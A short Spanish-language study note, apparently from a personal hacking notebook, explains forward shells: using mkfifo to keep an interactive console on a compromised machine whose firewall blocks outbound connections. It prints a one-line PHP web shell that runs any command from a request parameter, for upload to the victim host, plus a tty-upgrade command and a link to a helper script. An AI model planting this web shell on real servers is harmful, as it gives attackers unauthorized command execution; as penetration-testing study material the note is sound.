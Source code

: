 ------------
- Tags: #bash #shells #exploiting #hacking 
--------------------
# Definición

> Puede darse el caso de que la máquina comprometida haga uso de un firewall, bloqueando el tráfico saliente, de manera que no se pueda establecer conexión ni con una [[Reverse shell]] ni con una [[Bind shell]]. 

---------------
# Uso

> Se consigue a través del uso de **mkfifo**, creando un archivo **FIFO** que se utiliza como consola simulada interactiva a través de la cual el atacante puede operar en la máquina comprometida. En vez de ser una conexión directa, el atacante redirige el tráfico a través del archivo FIFO, permitiendo la comunicación con la máquina comprometida.

Para hacer uso de esta [[Shell]], utilizaremos un script de **s4vitar**[^1] para obtener una **tty** interactiva. Para ello es necesario subir a la máquina comprometida el siguiente archivo en php:

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

Posteriormente hay que retocar un poco el script, y ejecutándolo, una especie de [[Reverse shell]], aunque haría falta el uso del siguiente comando para conseguir realmente una **tty**:

```bash
script /dev/null -c bash
```


------------
# Referencias

[^1]: Para descargar dicho script : [repositorio TTYOverHTTP](https://github.com/s4vitar/ttyoverhttp)
